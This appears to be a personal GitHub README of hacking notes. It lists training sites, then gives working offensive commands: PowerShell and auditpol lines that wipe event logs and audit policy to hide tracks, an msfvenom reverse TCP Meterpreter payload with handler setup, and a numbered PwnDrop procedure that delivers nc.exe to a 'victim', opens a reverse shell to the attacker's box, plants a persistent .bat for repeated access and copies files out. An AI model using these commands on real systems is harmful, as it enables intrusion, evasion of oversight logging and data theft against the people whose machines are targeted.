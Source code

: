 # sturdy-guacamole
Tools &amp; Notes I like or need for System Security and/or Hacking

# What I am using for learning/training
```
www.cbtnuggets.com | Great Training 
www.testout.com | Great Training & labs | HIGHLY RECOMMENDED! SIgn up for the Monthly deal: use my referral here: 
www.teamtreehouse.com | More for Coding 
www.scrimba.com | Coding in a beautiful way
www.tryhackme.com | Hacking Learnt in an awesome way
www.hackthebox.eu | This is a really great tool for Easy-Expert CTFs - from Hardware - Full On Battles, however Try Hack Me is more suited for walkthroughs.
https://app.infosecinstitute.com/portal/skills/home | Sign up for the monthly deal 
```
I will organize this better later on but for now it's just thoughts which will be later organized:

Use NTFS | Alternate Data Streams to cover tracks once you have gained access and are finished - a few ways: 

# Using Admininstrator - Powershell 
This is gathering all the Entries Log for us to view what we did/or changed. Which we will then Delete, respectively.
```
> Get-EventLog -LogName *
> Get-EventLog -LogName * | ForEach { Clear-EventLog $_.log } 
```
N0w if we need to view the System Audit Policy we can do that below and then clear it: 
```
> auditpol /get /category:* <br>
> auditpol /clear /y
```
# Compile C Script
Linux
```
> gcc -o shell-exploit shell.c 
```
Windows
```
> i686-w64-mingw32-gcc win_script.c -o win_script.exe -lws2_32
````
# msfvenom
Basic Reverse TCP Shell
```
> msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe > fileNamed.exe
```
Usage
```
msf6> use exploit/multi/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> options
msf6> exploit
```
Go to victim computer or send to victim or pwndrop and download/run the .exe file
<br>
When shelled:
```
C:\> getuid
C:\> sysinfo
C:\> download secretFile.txt
C:\> upload secretPayload.txt
```
# Moving Files
Samba Share (SMB)<br>
PwnDrop - ip_address:pwndrop<br>
SSH/SCP - pretty simple
Meterpreter

# PwnDrop Usage
1st - You need to update the PwnDrop.ini file after install (Configuration to update your IP and Port)
<br><br>
2nd -
```
# cd /home/kali/tools/PwnDrop/build
```
3rd - 
```
# ./pwndrop start
```
4th - Go to 127.0.0.1:pwndrop <br>

5th -
```
[/home/kali/tools/pwndrop/build] # locate nc.exe 
[/home/kali/tools/pwndrop/build] # /usr/share/windows-resources/binaries/nc.exe
```
6th - Upload to PwnDrop (Upload Folder)<br>

7th - Go to victim computer -> access ServerIP link (IP Address:pwndrop)

8th - Save file to C:\ drive
```
> cmd (as admin)
> cd C:\ (Should see file)
> dir
```
9th - Go to attack box
```
# nc -nlvp 4444
```
10th - Go to victim box
```
> nc.exe <attackIP> <attackPort> -e cmd.exe
```
11th - Do whatever, you're in. You should upload a .bat file to persisitantly run every few hours for a shell.
<br>
<br>
12th - Upload any files from Victim to Attacker via PwnDrop.







